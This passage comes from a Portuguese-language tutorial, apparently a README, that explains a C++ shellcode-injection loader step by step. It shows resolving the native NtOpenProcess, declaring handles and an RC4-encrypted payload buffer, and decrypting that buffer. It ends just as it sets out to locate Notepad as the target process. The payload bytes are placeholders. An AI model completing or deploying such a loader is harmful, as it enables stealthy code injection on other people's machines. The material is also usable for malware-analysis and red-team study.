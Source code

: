 Logo em seguida, verifico se a função foi carregada corretamente:

```cpp
if (!NtOpenProcess) {
    SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
    std::cerr << "[!] Falha ao resolver uma ou mais funções da API nativa do NT." << std::endl;
    return 1;
}
```

Se `NtOpenProcess` for `NULL`, exibo uma mensagem de erro e interrompo a execução, retornando um código de falha.

---
### **Variáveis Importantes**
Declaro as variáveis principais que vou utilizar durante o processo:

```cpp
HANDLE processoAlvo = NULL, threadRemota = NULL;
PVOID enderecoRemoto = NULL;
DWORD idProcessoAlvo = 0;

unsigned char payload[] = { 0x00 };
unsigned char chaveRC4[] = { 0x00 };
```

`processoAlvo`: Vai armazenar o handle do processo de destino.
`threadRemota`: Handle para a thread remota que será criada.
`enderecoRemoto`: Um ponteiro que vai armazenar o endereço remoto onde o payload foi injetado.
`idProcessoAlvo:` O identificador do processo de destino.
`payload`: Esse é o buffer contendo o payload que será injetado no processo remoto.
`chaveRC4`: A chave para a decriptação do payload.

---
### **Decriptação do Payload**
O próximo passo é decriptar o payload. Para isso, uso uma função chamada `RC4DEC`:

```cpp
BOOL DECRYPT = RC4DEC(chaveRC4, static_cast<PBYTE>(payload), sizeof(chaveRC4), sizeof(payload));
```

`RC4DEC`: Esta função é responsável por aplicar a decriptação do payload usando o algoritmo RC4. Passo a chave RC4 e o payload como parâmetros, além de seus respectivos tamanhos.<br>
Se a decriptação falhar, interrompo a execução do programa:

```cpp
if (!DECRYPT) {
    SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
    std::cerr << "[!] Falha na decriptação do payload." << std::endl;
    return -1;
}
```

---
### **Localização do Processo Alvo**
Agora, preciso localizar o processo que vou atacar (no caso, o Notepad):
